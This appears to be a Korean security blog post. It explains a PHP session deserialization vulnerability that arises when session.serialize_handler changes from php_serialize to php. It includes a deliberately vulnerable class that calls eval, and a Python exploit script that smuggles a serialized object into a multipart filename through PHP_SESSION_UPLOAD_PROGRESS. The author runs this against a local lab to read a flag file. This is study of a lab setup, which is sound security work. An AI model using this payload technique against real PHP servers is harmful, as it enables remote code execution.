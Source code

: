 ```yaml
---
layout: post
title:  "PHP session.serialize_handler가 php_serialize로 되어 있는 경우 역직렬화 취약점 발생"
tags: [vuln,web]
excerpt: "PHP session.serialize_handler이 php_serialize에서 php으로 변경될 경우 세션이 역직렬화 되는 과정에서 발생하는 역직렬화 취약점"
toc: true
---
```

---

# PHP session.serialize_handler이란?

PHP 설정 세팅 중 [session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)는 세션의 데이터를 모두 직렬화/역직렬화할 때 사용되는 핸들러입니다.

간단하게 PHP세션의 직렬화/역직렬화 방식 핸들러를 session.serialize_handler옵션을 이용하여 지정할 수 있게 됩니다.

php.net를 살펴보면 나와있는대로 default는 php으로 지정되어 있고 php_binary, php_serialize, wddx가 있다고 나와 있습니다.

이번 블로그 글에서 다룰 부분은 session.serialize_handler이 기본으로 php_serialize으로 설정 되어 있는 상태에서 로컬에서 session.serialize_handler을 php 으로 바꾸는 과정에서 발생할 수 있는 역직렬화 취약점을 적어볼려고 합니다.

---

## PHP session.serialize_handler php_serialize 작동 방식

먼저 session.serialize_handler은 위에서 언급했다시피 기본 값으로는 php으로 되어있습니다.

만약 php에서 ``session_start();`` 함수를 이용하여 세션을 시작하면 ``session_save_path()`` 경로에 ``sess_(PHPSESSID)`` 형식으로 파일에 세션 정보가 직렬화되어 저장됩니다

하지만 만약 session.serialize_handler이 php일 경우 

```php
<?php 

session_start();

$_SESSION['test'] = 'test';

echo session_save_path()."\n";

?>
```

위와 같은 코드를 실행시키면 세션이 시작되면서 session_save_path() 함수 결과의 위치에 세션 정보가 있는걸 볼 수 있습니다.

```bash
$ cat /var/lib/php/sessions/sess_02g9od7s6sn9iv9ob8q63g8u0i
test|s:4:"test";
```

하지만 해당 코드를 session.serialize_handler를 php_serialize로 바꾼 다음 세션 파일을 읽어보면 데이터 저장 형식이 조금 달라진것을 볼 수 있습니다.

```php
a:1:{s:4:"test";s:4:"test";}
```

이제 이러한 php_serialize 방식을 이용하여 php 으로 바꼇을 때 역직렬화 취약점이 발생할 수 있는걸 다뤄보겠습니다.

---

# PHP session.serialize_handler unserialize exploit

먼저 session.serialize_handler을 이용하여 역직렬화 취약점을 발생시킬 수 있는 사이트를 구축해볼려면

[php session.serialize_handler 취약점 발생할 수 있는 환경을 만들어야되는데](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize) 먼저 php.ini 파일 위치를 찾아 session.serialize_handler값을 php_serialize으로 바꾼 다음

+ [https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize)

위의 Github 코드와 똑같이 구축한 다음 소스코드를 분석해보면 config.php 파일에서 session.serialize_handler 값을 php으로 변경해주면 세션에 php_serialize으로 직렬화되어 저장되어 있던 데이터가 php으로 변경되면서 역직렬화되는 과정을 거치게 됩니다.

그리고 RCE 취약점을 발생시키기 위해서는 exploit 클래스의 command 값을 조작해야되는데

```php
ini_set("session.serialize_handler", "php");

class exploit{
    public $command;
    function __destruct() {
        eval($this->command);
    }
}

session_start();
```

위의 config.php 파일의 class exploit 부분을 똑같이 로컬에서 구축하여 serialize 함수를 이용해 데이터를 직렬화 해보면

![local test class exploit serialize](\post-images\PHP\SESSION\session.serialize_handler\local_test_exploit_class_serialize.png)

이렇게 ``O:7:"exploit":1:{s:7:"command";s:30:"include('/var/www/html/flag');";}`` exploit 클래스를 직렬화한 데이터가 출력되는것을 볼 수 있습니다.

---

## PHP session.upload_progress를 이용한 SESSION Upload

하지만 exploit 데이터를 가지고 있다고 해도 서버에다가 해당 정보를 전송 할 방법을 없기 때문에 

session.upload_progress.clenup 와 session.upload_progress.enable가 아래와 같이 구성되어 있는 경우

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

PHP에서 세션을 ``session_start()`` 함수를 사용하는 대신 POST로 ``PHP_SESSION_UPLOAD_PROGRESS`` 이름으로 파일 업로드하여 세션을 생성시킬 수 있습니다.

이제 ``session.upload_progress``을 이용하여 POST으로 요청하면 되는데 그냥 단순히 requests 모듈로 open 함수를 써서 files 매개변수에 값을 넣으면 url 인코딩되어 제대로된 값이 들어가지 않기 때문에 

직접 POST body 데이터를 만들어준 다음에 헤더에 me2nuk이라는 쿠키 이름으로 요청보내주면 sess_me2nuk 파일에 php_serialize 방식으로 직렬화된 데이터가 들어간 파일 이름이 직렬화 되어 

페이지에서는 command 이라는 변수가 조작되어 ``include('/var/www/html/flag');`` 코드가 실행되는걸 볼 수 있습니다.
 

```py
import requests

contents = """------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

me2nuk
------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="file"; filename="|O:7:\\"exploit\\":1:{s:7:\\"command\\";s:30:\\"include('/var/www/html/flag');\\";}"
Content-Type: text/plain

------Me2nukPHPSessionUploadProgress--"""

url = "http://127.0.0.1/"
headers = {
    "Content-Type": "multipart/form-data; boundary=----Me2nukPHPSessionUploadProgress",
    "Cookie": "PHPSESSID=me2nuk"
}
r = requests.post(url, headers=headers, data=contents)

print(r.request.body)

result = requests.get(url, headers=headers).text

print(result)
```

하지만 보통은 filename에 들어가게 되면 모든 세션의 정보가 하나로 직렬화되어 sess_me2nuk 파일에 저장되어있을텐데

저렇게 따로 데이터를 분리시켜 exploit 이라는 클래스를 조작할 수 있는 이유는 

\| 특수문자를 이용하여 세션 정보를 분리시켜줄 수 있었기 때문입니다.

만약 \| 파이프를 넣지 않으면 세션 정보로 구별되어 exploit 클래스에 전혀 영향을 끼치지 않으므로 filename 첫번째에 \| 파이프를 넣어준 다음 직렬화된 exploit 클래스 정보를 넣어주면 됩니다.

![request python](\post-images\PHP\SESSION\session.serialize_handler\request.png)

그러면 이렇게 요청한 결과 ``FLAG{phP_sEssi0n_s2rla1ize_haNd12R_pHp_s2ria1ize}``가 나오는걸 볼 수 있습니다.

---

## 후기

이 블로그에서 다룬 내용은 간단하게 ``session.upload_progress.clenup``, ``session.upload_progress.enabled``, ``session.serialize_handler`` 설정을 이용하여 역직렬화 취약점을 발생할 수 있는 주제에 대해 다뤘는데 

처음에는 잘 몰라서 삽질했지만 이 기회에 재밌는 취약점을 공부하여 좋았습니다.
